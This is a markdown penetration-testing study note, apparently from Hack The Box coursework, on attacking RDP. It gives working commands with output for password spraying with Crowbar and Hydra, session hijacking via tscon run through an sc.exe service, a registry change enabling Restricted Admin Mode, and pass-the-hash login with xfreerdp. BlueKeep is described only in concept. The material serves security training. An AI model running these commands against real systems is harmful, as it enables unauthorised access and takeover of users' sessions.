





- [Attacking RDP](#attacking-rdp)
  - [Misconfigurations](#misconfigurations)
    - [Crowbar](#crowbar)
    - [Hydra](#hydra)
  - [Protocol Specific Attacks](#protocol-specific-attacks)
    - [RDP Session Hijacking](#rdp-session-hijacking)
    - [RDP PtH](#rdp-pth)
  - [Latest Vulnerabilities](#latest-vulnerabilities)
    - [CVE-2019-0708](#cve-2019-0708)
      - [Concept of the Attack](#concept-of-the-attack)

---

# Attacking RDP

## Misconfigurations

Since RDP takes user credentials for authentication, one common attack vector against the RDP protocol is password guessing. Although it is not common, you could find an RDP service without a password if there is a misconfiguration.

### Crowbar

Using the [Crowbar](https://github.com/galkan/crowbar) tool, you can perform a password spraying attack against the RDP service. As an example below, the password ```password123``` will be tested against a list of usernames in the ```usernames.txt``` file. The attack found the valid credentials on the target host.

```bash
d41y@htb[/htb]# cat usernames.txt 

root
test
user
guest
admin
administrator

...

d41y@htb[/htb]# crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'

2022-04-07 15:35:50 START
2022-04-07 15:35:50 Crowbar v0.4.1
2022-04-07 15:35:50 Trying 192.168.220.142:3389
2022-04-07 15:35:52 RDP-SUCCESS : 192.168.220.142:3389 - administrator:password123
2022-04-07 15:35:52 STOP
```

### Hydra

You can also use Hydra to perform an RDP password spray attack.

```bash
d41y@htb[/htb]# hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-08-25 21:44:52
[WARNING] rdp servers often don't like many connections, use -t 1 or -t 4 to reduce the number of parallel connections and -W 1 or -W 3 to wait between connection to allow the server to recover
[INFO] Reduced number of tasks to 4 (rdp does not like many parallel connections)
[WARNING] the rdp module is experimental. Please test, report - and if possible, fix.
[DATA] max 4 tasks per 1 server, overall 4 tasks, 8 login tries (l:2/p:4), ~2 tries per task
[DATA] attacking rdp://192.168.2.147:3389/
[3389][rdp] host: 192.168.2.143   login: administrator   password: password123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-08-25 21:44:56
```

## Protocol Specific Attacks

### RDP Session Hijacking

As shown in the example below, you are logged in as the user ```juurena``` who has Administrator privileges. Your goal is to hijack the user ```lewen```, who is also logged in via RDP.



To successfully impersonate a user without their password, you need to have SYSTEM privileges and use the Microsoft [tscon.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/tscon) binary that enables users to connect to another desktop session. It works by specifying which SESSION ID you would like to connect to which session name. So, for example, the following command will open a new console as the specified SESSION_ID within your current RDP session.

```
C:\htb> tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
```

If you have local administrator privileges, you can use several methods to obtain SYSTEM privileges, such as PsExec or Mimikatz. A simple trick is to create a Windows service that, by default, will run as Local System and will execute any binary with SYSTEM privileges. You will use Microsoft [sc.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/sc-create) binary. First, you specify the service name and the binpath, which is the command you want to execute. Once you run the following command, a service named sessionhijack will be created.

```
C:\htb> query user

 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>juurena               rdp-tcp#13          1  Active          7  8/25/2021 1:23 AM
 lewen                 rdp-tcp#14          2  Active          *  8/25/2021 1:28 AM

C:\htb> sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"

[SC] CreateService SUCCESS
```



To run the command, you can start the sessionhijack service:

```
C:\htb> net start sessionhijack
```

Once the service is started, a new terminal with the lewen user session will appear. With this new account, you can attempt to discover what kind of privileges it has on the network, and maybe you'll get lucky, and the user is a member of the Help Desk group with admin rights to many hosts or even a Domain Admin.



> [!NOTE]
> This method no longer works on Server 2019.

### RDP PtH

You may want to access applications or software installed on a user's Windows system that is only available with GUI access during a pentest. If you have plaintext credentials for the target user, it will be no problem to RDP into the system. However, what if you only have the NT hash of the user obtained from a credential dumping attack such as SAM database, and you could not crack the hash to reveal the plaintext password? In some instances, you can perform an RDP PtH attack to gain GUI access to the target system.

There are a few caveats to this attack:

- **Restricted Admin Mode**, which is disabled by default, should be enabled on the target host; otherwise, you will be prompted with the following error:



this can be enabled by adding a new registry key ```DisableRestrictedAdmin``` under ```HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa```. It can be done using the following command:

```
C:\htb> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```



Once the registry key is added, you can use xfreerdp with the option ```/pth``` to gain RDP access:

```bash
d41y@htb[/htb]# xfreerdp /v:192.168.220.152 /u:lewen /pth:300FF5E89EF33F83A8146C10F5AB9BB9

[09:24:10:115] [1668:1669] [INFO][com.freerdp.core] - freerdp_connect:freerdp_set_last_error_ex resetting error state            
[09:24:10:115] [1668:1669] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpdr                                   
[09:24:10:115] [1668:1669] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpsnd                                  
[09:24:10:115] [1668:1669] [INFO][com.freerdp.client.common.cmdline] - loading channelEx cliprdr                                 
[09:24:11:427] [1668:1669] [INFO][com.freerdp.primitives] - primitives autodetect, using optimized                               
[09:24:11:446] [1668:1669] [INFO][com.freerdp.core] - freerdp_tcp_is_hostname_resolvable:freerdp_set_last_error_ex resetting error state
[09:24:11:446] [1668:1669] [INFO][com.freerdp.core] - freerdp_tcp_connect:freerdp_set_last_error_ex resetting error state        
[09:24:11:464] [1668:1669] [WARN][com.freerdp.crypto] - Certificate verification failure 'self signed certificate (18)' at stack position 0
[09:24:11:464] [1668:1669] [WARN][com.freerdp.crypto] - CN = dc-01.superstore.xyz                                                     
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] - VERSION ={                                                              
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] -        ProductMajorVersion: 6                                           
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] -        ProductMinorVersion: 1                                           
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] -        ProductBuild: 7601                                               
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] -        Reserved: 0x000000                                               
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] -        NTLMRevisionCurrent: 0x0F                                        
[09:24:11:567] [1668:1669] [INFO][com.winpr.sspi.NTLM] - negotiateFlags "0xE2898235"

<SNIP>
```

> [!NOTE]
> Keep in mind that this will not work against every Windows system, you encounter, but is always wort trying in a situation where you have an NTLM hash, know the user has RDP rights against a machine or set of machines, and GUI access would benefit you in some ways towards fulfilling the goal of your assessment.

## Latest Vulnerabilities

### CVE-2019-0708

This vulnerability is known as BlueKeep. It does not require prior access to the system to exploit the service for your purposes. However, the exploitation of this vulnerability led and still leads to many malware or ransomware attacks. Large organizations such as hospitals, whose software is only designed for specific versions and libraries, are particularly vulnerable to such attacks, as infrastructure maintenance is costly.

#### Concept of the Attack

The vulnerability is also based, as with SMB, on manipulated requests sent to the targeted service. However, the dangerous thing here is that the vulnerability does not require user authentication to be triggered. Instead, the vulnerability occurs after initializing the connection when basic settings are exchanged between client and server. This is known as a Use-After-Free technique that uses freed memory to execute arbitrary code.

Read [this](https://unit42.paloaltonetworks.com/exploitation-of-windows-cve-2019-0708-bluekeep-three-ways-to-write-data-into-the-kernel-with-rdp-pdu/).